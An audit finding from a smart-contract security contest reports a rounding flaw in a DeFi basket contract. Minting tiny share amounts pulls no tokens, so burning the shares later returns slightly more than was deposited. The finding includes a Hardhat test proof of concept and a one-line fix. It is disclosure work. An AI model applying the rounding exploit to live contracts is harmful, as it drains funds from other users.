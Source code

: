 ## Tags

- bug
- 2 (Med Risk)
- sponsor confirmed

# [User can mint miniscule amount of shares, later withdraw miniscule more than deposited](https://github.com/code-423n4/2021-09-defiprotocol-findings/issues/81) 

# Handle

kenzo


# Vulnerability details

If a user is minting small amount of shares (like 1 - amount depends on baskets weights), the calculated amount of tokens to pull from the user can be less than 1, and therefore no tokens will be pulled. However the shares would still be minted.
If the user does this a few times, he could then withdraw the total minted shares and end up with more tokens than he started with - although a miniscule amount.

## Impact
User can end up with more tokens than he started with. However, I didn't find a way for the user to get an amount to make this a feasible attack. He gets dust. However he can still get more than he deserves. If for some reason the basket weights grow in a substantial amount, this could give the user more tokens that he didn't pay for.

## Proof of Concept
Add the following test to Basket.test.js.
The user starts with 5e18 UNI, 1e18 COMP, 1e18 AAVE,
and ends with 5e18+4, 1e18+4, 1e18+4.
```
it("should give to user more than he deserves", async () => {
        await UNI.connect(owner).mint(ethers.BigNumber.from(UNI_WEIGHT).mul(1000000));
        await COMP.connect(owner).mint(ethers.BigNumber.from(COMP_WEIGHT).mul(1000000));
        await AAVE.connect(owner).mint(ethers.BigNumber.from(AAVE_WEIGHT).mul(1000000));
  
        await UNI.connect(owner).approve(basket.address, ethers.BigNumber.from(UNI_WEIGHT).mul(1000000));
        await COMP.connect(owner).approve(basket.address, ethers.BigNumber.from(COMP_WEIGHT).mul(1000000));
        await AAVE.connect(owner).approve(basket.address, ethers.BigNumber.from(AAVE_WEIGHT).mul(1000000));
  
        console.log("User balance before minting:");
        console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
        console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
        console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());

        
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));

        console.log("\nUser balance after minting 1 share 5 times:");
        console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
        console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
        console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());

        await basket.connect(owner).burn(await basket.balanceOf(owner.address));
        console.log("\nUser balance after burning all shares:");
        console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
        console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
        console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());
    });
```

## Tools Used
Manual analysis, hardhat.

## Recommended Mitigation Steps
Add a check to ```pullUnderlying```:
```
require(tokenAmount > 0);
```
I think it makes sense that if a user is trying to mint an amount so small that no tokens could be pulled from him, the mint request should be denied.
Per my tests, for an initial ibRatio, this number (the minimal amount of shares that can be minted) is 2 for weights in magnitude of 1e18, and if the weights are eg. smaller by 100, this number will be 101.

